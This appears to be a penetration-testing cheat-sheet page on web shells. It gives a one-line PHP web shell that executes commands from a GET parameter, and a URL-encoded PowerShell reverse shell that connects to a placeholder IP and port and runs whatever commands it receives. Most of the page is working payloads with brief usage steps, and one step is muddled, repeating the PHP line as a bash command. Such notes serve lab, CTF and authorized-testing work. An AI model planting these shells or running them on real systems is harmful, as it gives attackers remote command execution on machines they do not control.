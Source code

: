 ```yaml
---
description: 'location in kali : ''/usr/share/webshells'''
---
```


# WEB

## using PHP

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**you can use link encoded commands to get a shell on a windows system using this link (change IP and PORT):**&#x20;

1. &#x20;run this command on terminal to create a get file

{% code overflow="wrap" %}
```bash
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
{% endcode %}

2. &#x20;

at the address bar of browser, open the file and run command you want (like the powershell command :arrow\_down:)

<img src="../../.gitbook/assets/image (3).png" alt="" data-size="original">

{% code overflow="wrap" %}
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
{% endcode %}
{% endhint %}
